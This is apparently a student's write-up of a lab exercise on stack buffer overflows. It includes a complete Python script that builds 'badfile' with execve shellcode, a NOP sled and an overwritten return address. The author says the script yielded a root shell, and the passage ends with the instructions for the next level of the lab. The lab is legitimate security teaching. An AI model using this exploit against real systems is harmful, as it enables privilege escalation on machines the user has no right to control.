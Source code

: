 ##  Task 2.2: Launching Your Attack
To exploit the buffer-overflow vulnerability in the target program, you need to prepare a payload, and save it inside ```badfile```. One could do this manually (sounds tedious…) or use another program, such as a Python script to help us make our ```badfile```. The contents of my ```badfile``` can be found below.
``` py

#!/usr/bin/python3
import sys

# TODO: Replace the content with the actual shellcode
shellcode = (

    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"

).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517-len(shellcode)       # TODO: Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value and put it somewhere in the payload
ret = 0xffffcda8 +  0xD8      # TODO: ebp + gdb delta
offset = 112      # TODO: Change this number $ebp-&buffer + size of return address

L = 4           # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)

```
\
This ```badfile``` with inputs created in ```TODO``` locations successfully got me to have a root shell. I struggled with finding the correct offset as I was forgetting the size of return address needed to be added within the program. This is was the hardest part for me just because of human error. The details for deciding the numbers can be found from examining part 1 and stepping through ```gdb```.


#   Task 3: Attacking a Vulnerable 32-bit Program Without Knowing the Buffer Size (Level 2)
In this task, you need to compile the vulnerable program into a 32-bit binary called ```stack-L2```. In the previous task (Level 1), you were able to use ```gdb``` to determine the size of the buffer. In the real world, this piece of information is unlikely to be so readily accessible. For example, if the target is a server program running on a remote machine, we will not be able to get a copy of the binary or source code, making our approach in the previous task infeasible. In this task, we are going to add a constraint: you can still use ```gdb```, but you are not allowed to use it to derive the buffer size.
